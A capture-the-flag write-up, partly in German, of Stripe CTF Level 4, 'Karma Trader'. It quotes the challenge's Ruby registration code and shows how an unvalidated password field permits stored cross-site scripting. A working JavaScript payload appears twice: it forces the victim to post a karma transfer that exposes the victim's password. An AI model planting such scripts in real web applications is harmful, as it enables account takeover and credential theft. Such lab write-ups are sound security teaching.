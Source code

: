 LEVEL 04
========

params[:password] not escaped and checked
XSS vulnerability, user karma_fountain logs in every minute... use to
send yourself karma to see his password

    <script type='text/javascript'>$.ajax({ url: document.location +
    'transfer', type: 'POST', data: { to: 'a', amount: '100' }});</script>.

---

The Karma Trader is the world's best way to reward people for good deeds: https://level04-4.stripe-ctf.com/user-XXXX. You can sign up for an account, and start transferring karma to people who you think are doing good in the world. In order to ensure you're transferring karma only to good people, transferring karma to a user will also reveal your password to him or her.

The very active user karma_fountain has infinite karma, making it a ripe account to obtain (no one will notice a few extra karma trades here and there). The password for karma_fountain's account will give you access to Level 5.

You can obtain the full, runnable source for the Karma Trader from git clone https://level04-4.stripe-ctf.com/user-XXXX/level04-code. We've included the most important files below.

----

Interessant, dass sich der User karma_fountain jede Minute einloggt, oder? Außerdem ist es wohl ein lustiges Verhalten, dass das eigene Passwort dem Karma-Empfänger angezeigt wird...

    post '/register' do
          username = params[:username]
          password = params[:password]
          unless username && password
            die("Please specify both a username and a password.", :register)
          end

          unless username =~ /^\w+$/
            die("Invalid username. Usernames must match /^\w+$/", :register)
          end

          unless DB.conn[:users].where(:username => username).count == 0
            die("This username is already registered. Try another one.",
                :register)
          end

          DB.conn[:users].insert(
            :username => username,
            :password => password,
            :karma => STARTING_KARMA,
            :last_active => Time.now.utc
            )
          session[:user] = username
          redirect '/'
        end

Die interesse Stelle oben lässt erkennen, dass hier der Username durch eine Regular Expression validiert wird, dass Passwort jedoch nicht! Oh. Und das Passwort wird ja jedem Empfänger angezeigt?! Spricht für eine wunderbare Cross Site Scripting Vulnerability.

      <script type='text/javascript'>$.ajax({ url: document.location +
    'transfer', type: 'POST', data: { to: 'a', amount: '100' }});</script>

Packen wir also das kurze, oben stehende Script bei der Registrierung als Passwort in unseren Account und überweisen der karma_fountain danach etwas Karma, so wird beim nächsten Aufruf durch die karma_fountain eben jenes Script ausgeführt. Das Teil sendet also dem User a Karma - und natürlich das Passwort!